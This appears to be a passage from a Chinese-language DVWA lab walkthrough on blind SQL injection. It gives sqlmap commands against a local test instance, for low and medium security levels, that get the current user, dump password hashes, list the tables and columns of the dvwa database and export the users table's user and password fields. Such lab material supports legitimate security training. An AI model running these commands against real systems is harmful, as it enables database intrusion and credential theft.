 - 获取当前操作的用户  
  
```bash  
python sqlmap.py -u "<http://localhost/vulnerabilities/sqli_blind/?id=1&Submit=Submit#>" --cookie="security=low; PHPSESSID=5tsca0iocc9ug7mr4mfb4hnba4" --batch --current-user  
```

- 列出可连接数据库的所有账户-对应的密码哈希  
  
```bash  
python sqlmap.py -u "<http://localhost/vulnerabilities/sqli_blind/?id=1&Submit=Submit#>" --cookie="security=low; PHPSESSID=5tsca0iocc9ug7mr4mfb4hnba4" --batch --passwords  
```

- 列出数据库中所有的数据表  
  
```bash  
python sqlmap.py -u "<http://localhost/vulnerabilities/sqli_blind/?id=1&Submit=Submit#>" --cookie="security=low; PHPSESSID=5tsca0iocc9ug7mr4mfb4hnba4" --batch -D dvwa --tables  
```

- 列出数据表中所有字段  
  
```bash  
python sqlmap.py -u "<http://localhost/vulnerabilities/sqli_blind/?id=1&Submit=Submit#>" --cookie="security=low; PHPSESSID=5tsca0iocc9ug7mr4mfb4hnba4" --batch -D dvwa -T users --columns  
```

- 导出特定数据表中的字段  
  
```bash  
python sqlmap.py -u "<http://localhost/vulnerabilities/sqli_blind/?id=1&Submit=Submit#>" --cookie="security=low; PHPSESSID=5tsca0iocc9ug7mr4mfb4hnba4" --batch -D dvwa -T users -C "user,password" --dump  
```

![](/images/dvwa/18.png)  


### medium  

`POST` 请求，参数在`POST`请求体中传递。此时，构造SQLMap操作命令，则需要将url和data分成两部分分别填写，同时需要更新cookie信息的取值。  

```bash  
python sqlmap.py -u "<http://localhost/vulnerabilities/sqli_blind/#>" --data="id=1&Submit=Submit" --cookie="security=medium; PHPSESSID=5tsca0iocc9ug7mr4mfb4hnba4" --batch -D dvwa -T users -C "user,password" --dump  
```
